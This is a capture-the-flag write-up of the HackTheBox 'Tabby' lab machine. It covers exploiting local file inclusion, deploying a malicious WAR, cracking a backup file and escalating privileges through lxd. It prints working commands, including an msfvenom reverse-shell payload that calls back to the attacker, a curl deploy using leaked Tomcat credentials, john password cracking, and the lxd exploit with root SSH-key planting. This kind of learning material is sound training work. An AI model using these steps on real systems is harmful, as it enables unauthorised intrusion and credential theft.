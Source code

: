```yaml
---
layout: post
title: HackTheBox Tabby walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, linpeas, ssh, lxd, tomcat, lfi, john]
comments: true
---
```



This is a write up about 'Tabby' box from HackThebox. The machine is rated as easy by the community and CVE oriented. I exploited a Local File Inclusion (LFI) vulnerability to get the admin web server credentials, used those credentials to upload a war file and get remote code execution. I found the password of a backup file, logged myself as user 'ash' with it and exploit a 'lxd' privilege escalation vulnerability to get full control of the machine.


![into_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8ef266cc2812400c8683218347a1d3fc.png)



As always I started by port enumeration.


![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/987987c4fcf945e7aa64b25d8536798e.png)




![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/1f617483764c4fbba3a9f9b7a24f0afd.png)




I browser to the main website (on port 80) and found a [LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion).



![suspicious_url.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/d980c4ba589345328af65147252aa056.png)



![lfi.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/27fc66fd9f9447228f593b962893566b.png)

The seconde HTTP server (on port 8080) had a basic installation of tomcat 9. I did my homework and found tomcat versions 7 to 9 were vulnerable to remote code execution if I could upload a malicious WAR file into the server.

Tomcat9 allows users to upload WAR files into the server to  install web applications (see: [remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)) but users must be authenticated and have manager rights define into `tomcat-users.xml` configuration file.
I used the LFI discovered previously to get access to `tomcat-users.xml` configuration file.

![tomcat-users.xml.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e2780244817345728fc064069c33ee3a.png)

Tomcat is an open-source implementation of the Java servlet technology and can run jsp files. I used `msfvenom` to create a WAR file containing a malicious jsp document and upload the war file with curl.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR-IP-ADDR -f war -o reverseshell.war
curl -v -u 'tomcat':'$3cureP4s5w0rd123!' -T reverseshell.war http://10.10.10.194:8080/manager/text/deploy?path=/reverseshell4444&update=true
```

I used netcat to listen on port 4444 and browser to my newly upload application (http://10.10.10.194:8080/reverseshell4444) to get a shell.


![tomcat_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/e92487ac5644472cb38809675ee6b619.png)


I found a backup file protected by a password own by ash. 



![found_backup_file.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c0fbaabf39734fd8aa4c5d8ae1039119.png)



Any user could read the file so I uploaded it  on my machine and brute force the password with john.

```bash
/usr/sbin/zip2john 16162020_backup.zip  > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

![backup_password.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/36d527c32c9c49d1882a6f9d650e8003.png)

I used the command `su ash` and log in with the password `admin@it`.

![ash_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/680afd5896ff4d52b1efe8d6e1cf2c93.png)

I enumerated the box for clues that could lead me to a privilege escalation with the automated tool [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) and found I could get to the user ash to root through a [lxd vulnerabilty](https://www.exploit-db.com/exploits/46978).

For the exploit to work properly I needed to upload a container image into the box since Tabby wasn't connected to the internet.

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine
searchsploit -m linux/local/46978.sh
```

I downloaded '46978.sh' script and the container image from my machine into ash root directory and got a root shell on the container.

```
chmod +x 46978.sh
./46978.sh -f CONATAINER_IMAGE
```

![root_container.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/014af8c4a7fd4c54a6b4895471d07390.png)

The file system of Tabby is accessible from `/mnt/root/` and I can make any modification on the box since I'm root on the container. I created a pair of SSH key with `ssh-keygen` command and copy to content of the public key into `/mnt/root/.ssh/authorized_keys` file. 

I SSH into the box as root and got a shell.


![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/5015ddcdcd06472190bc2e70b88565c9.png)

I like realistic box and this box is definitely one of them. I learned a lot about tomcat and lxd privilege root escalation.

# References
- [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [lxd privilege escalation exploit](https://www.exploit-db.com/exploits/46978)
- [Automated Enumaration linux tool](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
- [Tomcat 9 remote deploy documentation](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)

